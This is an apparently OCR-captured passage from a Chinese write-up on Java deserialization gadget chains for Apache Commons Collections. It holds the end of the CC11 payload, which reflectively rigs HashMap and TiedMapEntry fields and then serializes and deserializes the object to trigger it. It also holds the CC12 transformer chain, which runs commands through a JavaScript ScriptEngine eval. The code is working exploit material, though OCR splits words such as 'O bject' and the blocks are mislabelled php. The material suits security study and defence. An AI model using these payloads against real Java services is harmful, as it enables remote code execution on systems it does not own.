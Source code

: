 ```php
        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        f2.setAccessible(true);
        O bject[] array = (O bject[])f2.get(hashset_map);

        O bject node = array[0];
        if(node == null){
            node = array[1];
        }
        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node,tiedmap);

        Field f3 = transformer.getClass().getDeclaredField("iMethodName");
        f3.setAccessible(true);
        f3.set(transformer,"newTransformer");

        try{
            O bjectOutputStream outputStream = new O bjectOutputStream(new FileOutputStream("./cc11"));
            outputStream.writeO bject(hashset);
            outputStream.close();

            O bjectInputStream inputStream = new O bjectInputStream(new FileInputStream("./cc11"));
            inputStream.readO bject();
        }catch(Exception e){
            e.printStackTrace();
```

**12.commons-collections12**
----------------------------

清水老板的，与CC6的区别就是引入了js来支持执行更多命令，主要修改了transformer的构造

```php

String[] execArgs = new String[]{cmd};
      Transformer[] transformers = new Transformer[]{new ConstantTransformer(S criptEngineManager.class),
              new InvokerTransformer("newInstance", new Class[0], new O bject[0]),
              new InvokerTransformer("getEngineByName", new Class[]{String.class},
                      new O bject[]{"J avaS cript"}), new InvokerTransformer("e val",
              new Class[]{String.class}, execArgs), new ConstantTransformer(1)};
```

